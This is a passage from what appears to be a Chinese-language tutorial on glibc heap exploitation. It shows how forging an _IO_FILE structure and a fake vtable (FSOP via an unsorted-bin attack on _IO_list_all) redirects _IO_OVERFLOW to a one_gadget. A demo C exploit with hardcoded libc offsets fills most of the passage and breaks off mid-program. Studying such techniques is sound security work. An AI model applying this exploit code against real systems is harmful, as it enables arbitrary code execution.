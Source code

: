 &emsp;&emsp;<font size=2>这里的p指向我们伪造的`_IO_FILE`头部，只要这样构造好：</font></br>

```C
fp->_mode = 0;
fp->_IO_write_base = 0;
fp->_IO_write_ptr = 1;

```

&emsp;&emsp;<font size=2>就能使`_IO_OVERFLOW`得到执行，而`_IO_OVERFLOW`又是`_IO_FILE_plus`中的`vtable`成员。偏移为`0xd8`，因此直接把vtable伪造为一个地址，然后在这个地址的`_IO_OVERFLOW`偏移（0x18)处放上`one_gadget`就可以了。完整demo如下：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <libio.h>

typedef unsigned long long ull;

void setvbufs()
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
int main()
{
	void *p1, *p2, *p3, *p4;
	ull *p;
	ull libc_base = 0;
	ull _IO_list_all = 0x3c5520;
	ull one_gadget = 0xf1147;
	
	setvbufs();
	p1=malloc(0x100);
	malloc(0x20);

	free(p1);
	malloc(0xa0);

	p2 = malloc(0x100);
	// now we have a 0x60 smallbin
	//
	// avoid smallbin to be alloced, use 0x100
	malloc(0x100);

	free(p2);
	libc_base = *(ull*)p2 - 0x3c4b78;
	*((ull*)p2+1) = libc_base+_IO_list_all - sizeof(void*)*2;

	malloc(0x100);

	p = (ull*)((ull)p1+0xa0);
	// 'p' pointer to the chain of _IO_list_all
	// fake _mode
	*p = 0;
	// _IO_write_base
	*(p+4) = 0;
	// _IO_write_ptr
	*(p+5) = 1;
	// __overflow in vtable
	*(p+3) = libc_base+one_gadget;
	// fake vtable
	*(ull*)((ull)p+0xd8) = (ull)p;
	
```